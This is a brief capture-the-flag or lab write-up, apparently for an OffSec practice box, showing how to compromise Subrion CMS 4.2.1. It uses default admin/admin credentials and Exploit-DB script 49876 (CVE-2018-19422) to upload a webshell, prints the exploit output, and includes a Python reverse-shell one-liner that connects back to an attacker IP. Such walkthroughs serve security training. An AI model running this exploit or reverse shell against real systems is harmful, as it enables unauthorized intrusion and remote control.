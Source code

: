 # Subrion 4.2.1

Look out for default credentials and use the following exploit to get a webshell.

{% embed url="https://www.exploit-db.com/exploits/49876" %}

```
python3 /usr/share/exploitdb/exploits/php/webapps/49876.py -u http://exfiltrated.offsec/panel/ --user admin --pass admin
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://exfiltrated.offsec/panel/
[+] Success!
[+] Got CSRF token: DDfwZ8GPEC2Tg8VVe1YRcFpRjJa9FYyVqFKUT1w8
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: opeiofhyesciqss

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://exfiltrated.offsec/panel/uploads/opeiofhyesciqss.phar 

$ export RHOST="192.168.49.135";export RPORT=80;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'

$ ^C
[x] Failed to execute PHP code...

```
